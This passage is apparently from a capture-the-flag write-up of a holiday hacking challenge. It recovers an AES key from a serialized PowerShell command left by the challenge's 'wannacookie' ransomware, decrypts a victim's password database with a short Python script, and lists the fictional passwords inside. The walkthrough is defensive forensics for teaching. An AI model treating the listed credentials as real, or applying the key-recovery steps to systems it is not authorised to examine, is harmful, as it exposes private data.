N="N" /><S N="V">C:\Users\alabaster\Desktop\alabaster_passwords.elfdb</S></MS></Obj><Obj RefId="16"><MS><Nil N="N" /><B N="V">true</B></MS></Obj></LST></Obj></MS></Obj></LST></Obj><B N="IsNested">false</B><Nil N="History" /><B N="RedirectShellErrorOutputPipe">true</B></MS></Obj><B N="NoInput">true</B><Obj N="ApartmentState" RefId="17"><TN RefId="3"><T>System.Threading.ApartmentState</T><T>System.Enum</T><T>System.ValueType</T><T>System.Object</T></TN><ToString>Unknown</ToString><I32>2</I32></Obj><Obj N="RemoteStreamOptions" RefId="18"><TN RefId="4"><T>System.Management.Automation.RemoteStreamOptions</T><T>System.Enum</T><T>System.ValueType</T><T>System.Object</T></TN><ToString>0</ToString><I32>0</I32></Obj><B N="AddToHistory">true</B><Obj N="HostInfo" RefId="19"><MS><B N="_isHostNull">true</B><B N="_isHostUINull">true</B><B N="_isHostRawUINull">true</B><B N="_useRunspaceHost">true</B></MS></Obj><B N="IsNested">false</B></MS></Obj>
```

Using an [online XML beautifier](https://www.freeformatter.com/xml-formatter.html#ad-output) I re-formatted this as follows.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Obj RefId="0">
   <MS>
      <Obj N="PowerShell" RefId="1">
         <MS>
            <Obj N="Cmds" RefId="2">
               <TN RefId="0">
                  <T>System.Collections.Generic.List`1[[System.Management.Automation.PSObject, System.Management.Automation, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]]</T>
                  <T>System.Object</T>
               </TN>
               <LST>
                  <Obj RefId="3">
                     <MS>
                        <S N="Cmd">param($key, $File, $true_false);try{e_d_file $key $File $true_false} catch {$_.Exception.Message | Out-String | Out-File $($env:userprofile+'\Desktop\ps_log.txt') -append}</S>
                        <B N="IsScript">true</B>
                        <Nil N="UseLocalScope" />
                        <Obj N="MergeMyResult" RefId="4">
                           <TN RefId="1">
                              <T>System.Management.Automation.Runspaces.PipelineResultTypes</T>
                              <T>System.Enum</T>
                              <T>System.ValueType</T>
                              <T>System.Object</T>
                           </TN>
                           <ToString>None</ToString>
                           <I32>0</I32>
                        </Obj>
                        <Obj N="MergeToResult" RefId="5">
                           <TNRef RefId="1" />
                           <ToString>None</ToString>
                           <I32>0</I32>
                        </Obj>
                        <Obj N="MergePreviousResults" RefId="6">
                           <TNRef RefId="1" />
                           <ToString>None</ToString>
                           <I32>0</I32>
                        </Obj>
                        <Obj N="MergeError" RefId="7">
                           <TNRef RefId="1" />
                           <ToString>None</ToString>
                           <I32>0</I32>
                        </Obj>
                        <Obj N="MergeWarning" RefId="8">
                           <TNRef RefId="1" />
                           <ToString>None</ToString>
                           <I32>0</I32>
                        </Obj>
                        <Obj N="MergeVerbose" RefId="9">
                           <TNRef RefId="1" />
                           <ToString>None</ToString>
                           <I32>0</I32>
                        </Obj>
                        <Obj N="MergeDebug" RefId="10">
                           <TNRef RefId="1" />
                           <ToString>None</ToString>
                           <I32>0</I32>
                        </Obj>
                        <Obj N="MergeInformation" RefId="11">
                           <TNRef RefId="1" />
                           <ToString>None</ToString>
                           <I32>0</I32>
                        </Obj>
                        <Obj N="Args" RefId="12">
                           <TNRef RefId="0" />
                           <LST>
                              <Obj RefId="13">
                                 <MS>
                                    <Nil N="N" />
                                    <Obj N="V" RefId="14">
                                       <TN RefId="2">
                                          <T>System.Object[]</T>
                                          <T>System.Array</T>
                                          <T>System.Object</T>
                                       </TN>
                                       <LST>
                                          <By>251</By>
                                          <By>207</By>
                                          <By>193</By>
                                          <By>33</By>
                                          <By>145</By>
                                          <By>93</By>
                                          <By>153</By>
                                          <By>204</By>
                                          <By>32</By>
                                          <By>163</By>
                                          <By>211</By>
                                          <By>213</By>
                                          <By>216</By>
                                          <By>79</By>
                                          <By>131</By>
                                          <By>8</By>
                                       </LST>
                                    </Obj>
                                 </MS>
                              </Obj>
                              <Obj RefId="15">
                                 <MS>
                                    <Nil N="N" />
                                    <S N="V">C:\Users\alabaster\Desktop\alabaster_passwords.elfdb</S>
                                 </MS>
                              </Obj>
                              <Obj RefId="16">
                                 <MS>
                                    <Nil N="N" />
                                    <B N="V">true</B>
                                 </MS>
                              </Obj>
                           </LST>
                        </Obj>
                     </MS>
                  </Obj>
               </LST>
            </Obj>
            <B N="IsNested">false</B>
            <Nil N="History" />
            <B N="RedirectShellErrorOutputPipe">true</B>
         </MS>
      </Obj>
      <B N="NoInput">true</B>
      <Obj N="ApartmentState" RefId="17">
         <TN RefId="3">
            <T>System.Threading.ApartmentState</T>
            <T>System.Enum</T>
            <T>System.ValueType</T>
            <T>System.Object</T>
         </TN>
         <ToString>Unknown</ToString>
         <I32>2</I32>
      </Obj>
      <Obj N="RemoteStreamOptions" RefId="18">
         <TN RefId="4">
            <T>System.Management.Automation.RemoteStreamOptions</T>
            <T>System.Enum</T>
            <T>System.ValueType</T>
            <T>System.Object</T>
         </TN>
         <ToString>0</ToString>
         <I32>0</I32>
      </Obj>
      <B N="AddToHistory">true</B>
      <Obj N="HostInfo" RefId="19">
         <MS>
            <B N="_isHostNull">true</B>
            <B N="_isHostUINull">true</B>
            <B N="_isHostRawUINull">true</B>
            <B N="_useRunspaceHost">true</B>
         </MS>
      </Obj>
      <B N="IsNested">false</B>
   </MS>
</Obj>
```

As expected, the `alabaster_passwords.elfdb` filename is in the XML, but suprisingly right before that tag is an array of 16 bytes. I knew we were looking for an AES key so I thought it was worth a try to use that as the key. I wrote a quick python program

```python
with open('alabaster_passwords.elfdb.wannacookie','rb') as f:
	data = f.read()
	f.close()

a = AES.new(key=bytes([251,207,193,33,145,93,153,204,32,163,211,213,216,79,131,8]),mode=AES.MODE_CBC,iv=data[4:20])
dec = a.decrypt(data[20:])

with open('alabaster_passwords.elfdb','wb') as f:
	f.write(dec)
	f.close()
```

and to my suprise this decrypted to a plaintext file. From this we can dump the database and find the password to the "vault"

```
$ sqlite3 alabaster_passwords.elfdb .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE IF NOT EXISTS "passwords" (
	`name`	TEXT NOT NULL,
	`password`	TEXT NOT NULL,
	`usedfor`	TEXT NOT NULL
);
INSERT INTO passwords VALUES('alabaster.snowball','CookiesR0cK!2!#','active directory');
INSERT INTO passwords VALUES('alabaster@kringlecastle.com','KeepYourEnemiesClose1425','www.toysrus.com');
INSERT INTO passwords VALUES('alabaster@kringlecastle.com','CookiesRLyfe!*26','netflix.com');
INSERT INTO passwords VALUES('alabaster.snowball','MoarCookiesPreeze1928','Barcode Scanner');
INSERT INTO passwords VALUES('alabaster.snowball','ED#ED#EED#EF#G#F#G#ABA#BA#B','vault');
INSERT INTO passwords VALUES('alabaster@kringlecastle.com','PetsEatCookiesTOo@813','neopets.com');
INSERT INTO passwords VALUES('alabaster@kringlecastle.com','YayImACoder1926','www.codecademy.com');
INSERT INTO passwords VALUES('alabaster@kringlecastle.com','Woootz4Cookies19273','www.4chan.org');
INSERT INTO passwords VALUES('alabaster@kringlecastle.com','ChristMasRox19283','www.reddit.com');
COMMIT;
```

## 10) Who Is Behind It All?

Difficulty: 1/5

Who was the mastermind behind the whole KringleCon plan? And, in your [emailed answers](SANSHolidayHackChallenge@counterhack.com) please explain that plan.

In one last twist, the password for the vault (from challenge 9) is actually piano keys, so using the instructions (from challenge 8) to move the keys down a full note, the password to unlock the vault door in Kringlecon is actually "D C# D C# D D C# D E F# E F# G A G# A G# A".

Going through the vault door you can talk to Santa and get his comments on the plan:

> You DID IT! You completed the hardest challenge. You see, Hans and the soldiers work for ME. I had to test you. And you passed the test!

> You WON! Won what, you ask? Well, the jackpot, my dear! The grand and glorious jackpot!

> You see, I finally found you!

> I came up with the idea of KringleCon to find someone like you who could help me defend the North Pole against even the craftiest attackers.

> That’s why we had so many different challenges this year.

> We needed to find someone with skills all across the spectrum.

> I asked my friend Hans to play the role of the bad guy to see if you could solve all those challenges and thwart the plot we devised.

> And you did!

> Oh, and those brutish toy soldiers? They are really just some of my elves in disguise.

> See what happens when they take off those hats?

> Based on your victory… next year, I’m going to ask for your help in defending my whole operation from evil bad guys.

> And welcome to my vault room. Where's my treasure? Well, my treasure is Christmas joy and good will.

> You did such a GREAT job! And remember what happened to the people who suddenly got everything they ever wanted?

> They lived happily ever after.

So Santa himself was the mastermind - and pinned his friend Hans as the scapegoat. His plan was to find someone who could solve a variety of challenges across the spectrum, thus the variety of challenges.
